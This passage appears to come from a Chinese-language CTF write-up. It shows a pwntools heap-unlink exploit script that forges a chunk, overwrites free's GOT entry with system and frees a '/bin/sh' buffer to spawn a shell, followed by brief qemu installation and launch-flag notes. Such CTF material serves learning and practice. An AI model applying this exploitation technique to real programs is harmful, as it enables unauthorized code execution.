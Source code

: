 ```


add(0x80,"AAAA".ljust(0x7f,'A'))
add(0x80,"AAAA".ljust(0x7f,'A'))
add(0x80,"AAAA".ljust(0x7f,'A'))
add(0x80,"AAAA".ljust(0x7f,'A'))
add(0x80,"AAAA".ljust(0x7f,'A'))
add(0x80,"/bin/sh\x00")
delete(3)
delete(4)

free_got = elf.got["free"]
system_plt = elf.plt["system"]

fake_addr = 0x6020c0+3*8
fake_chunk = ""
fake_chunk += p64(0)
fake_chunk += p64(0x81)
fake_chunk += p64(fake_addr-3*8)
fake_chunk += p64(fake_addr-2*8)
fake_chunk += "".ljust(0x80-4*8, 'A')
fake_chunk += p64(0x80)
fake_chunk += p64(0x80+0x10)

add(0x80+0x10+0x80,fake_chunk)
delete(4)
edit(3,p64(free_got))
edit(0,p64(system_plt))
delete(5)

s.interactive()
```


## 0x003 core

安装qemu
```
$ apt install qemu qemu-system
```

也可以编译安装qemu，看这篇
[玩转qemu之环境搭建](http://www.wooy0ung.me/note/2018/02/27/qemu-environment/)

qemu启动命令
```
-m megs set virtual RAM size to megs MB [default=128]
-kernel bzImage use ‘bzImage’ as kernel image
-initrd file use ‘file’ as initial ram disk
-append cmdline use ‘cmdline’ as kernel command line
-s shorthand for -gdb tcp::1234
```
